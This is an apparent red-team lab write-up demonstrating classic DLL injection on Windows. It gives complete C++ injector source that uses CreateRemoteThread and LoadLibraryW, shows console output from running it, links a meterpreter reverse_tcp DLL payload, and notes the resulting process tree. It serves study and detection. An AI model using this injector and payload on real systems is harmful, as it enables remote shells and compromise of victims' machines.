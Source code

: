 ```yaml
---
description: Injecting DLL into a remote process.
---
```


# DLL Injection

This lab attempts a classic DLL injection into a remote process.

## Execution

{% code-tabs %}
{% code-tabs-item title="inject-dll.cpp" %}
```cpp
int main(int argc, char *argv[]) {
	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
	
	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);	
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE hThread = CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle); 
	
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacker receiving a shell from the injected process:

![](../../.gitbook/assets/inject-dll-shell.png)

{% file src="../../.gitbook/assets/inject1.exe" caption="DLL injector.exe" %}

{% file src="../../.gitbook/assets/evilm64.dll" caption="c:\\experiments\\evilm64.dll \(windows/x64/meterpreter/reverse\_tcp\)" %}

## Observations

Note how the notepad spawned rundll32 which then spawned a cmd.exe because of the meterpreter payload \(and attacker's `shell` command\) that got executed as part of the injected evilm64.dll into the notepad process:

![](../../.gitbook/assets/inject-dll.png)

![](../../.gitbook/assets/inject-dll-procmon.png)

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/ms683212\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"GetProcAddress function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/ms684175\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"LoadLibrary function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}



